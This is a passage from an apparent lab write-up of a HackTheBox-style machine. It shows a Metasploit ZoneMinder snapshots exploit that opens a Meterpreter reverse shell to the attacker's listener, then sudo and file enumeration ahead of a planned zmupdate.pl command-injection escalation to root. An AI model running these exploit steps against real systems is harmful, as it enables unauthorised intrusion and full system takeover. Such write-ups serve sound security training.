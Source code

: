 ```
SRVPORT => 8081
msf exploit(unix/webapp/zoneminder_snapshots) > set FETCH_SRVPORT 8081
FETCH_SRVPORT => 8081
msf exploit(unix/webapp/zoneminder_snapshots) > set LHOST tun0
LHOST => 10.10.16.34
msf exploit(unix/webapp/zoneminder_snapshots) > set LPORT 5555
LPORT => 5555
msf exploit(unix/webapp/zoneminder_snapshots) > run
[*] Started reverse TCP handler on 10.10.16.34:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Elapsed time: 10.718996059003985 seconds.
[+] The target is vulnerable.
[*] Fetching CSRF Token
[+] Got Token: key:713896ea92c3a06ef8257a0a5b7565555ae77650,1758176397
[*] Executing nix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (3090404 bytes) to 10.129.230.42
[*] Meterpreter session 2 opened (10.10.16.34:5555 -> 10.129.230.42:47420) at 2025-09-18 08:20:00 +0200
[+] Payload sent

meterpreter > getuid
Server username: zoneminder
```

### Escalate to `root` user by exploiting command injection vulnerability in `zmupdate.pl` script

#### List allowed sudo commands
```
meterpreter > shell
Process 56019 created.
Channel 1 created.
/usr/bin/script -qc /bin/bash /dev/null
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

#### List Perl scripts for potential privileges escalation
```
zoneminder@surveillance:/usr/share/zoneminder/www$ ls -l /usr/bin/zm*.pl
ls -l /usr/bin/zm*.pl
-rwxr-xr-x 1 root root 43027 Nov 23  2022 /usr/bin/zmaudit.pl
-rwxr-xr-x 1 root root 12939 Nov 23  2022 /usr/bin/zmcamtool.pl
-rwxr-xr-x 1 root root  6043 Nov 23  2022 /usr/bin/zmcontrol.pl
-rwxr-xr-x 1 root root 26232 Nov 23  2022 /usr/bin/zmdc.pl
-rwxr-xr-x 1 root root 35206 Nov 23  2022 /usr/bin/zmfilter.pl
-rwxr-xr-x 1 root root  5640 Nov 23  2022 /usr/bin/zmonvif-probe.pl
-rwxr-xr-x 1 root root 19386 Nov 23  2022 /usr/bin/zmonvif-trigger.pl
-rwxr-xr-x 1 root root 13994 Nov 23  2022 /usr/bin/zmpkg.pl
-rwxr-xr-x 1 root root 17492 Nov 23  2022 /usr/bin/zmrecover.pl
-rwxr-xr-x 1 root root  4815 Nov 23  2022 /usr/bin/zmstats.pl
-rwxr-xr-x 1 root root  2133 Nov 23  2022 /usr/bin/zmsystemctl.pl
-rwxr-xr-x 1 root root 13111 Nov 23  2022 /usr/bin/zmtelemetry.pl
-rwxr-xr-x 1 root root  5340 Nov 23  2022 /usr/bin/zmtrack.pl
-rwxr-xr-x 1 root root 18482 Nov 23  2022 /usr/bin/zmtrigger.pl
```
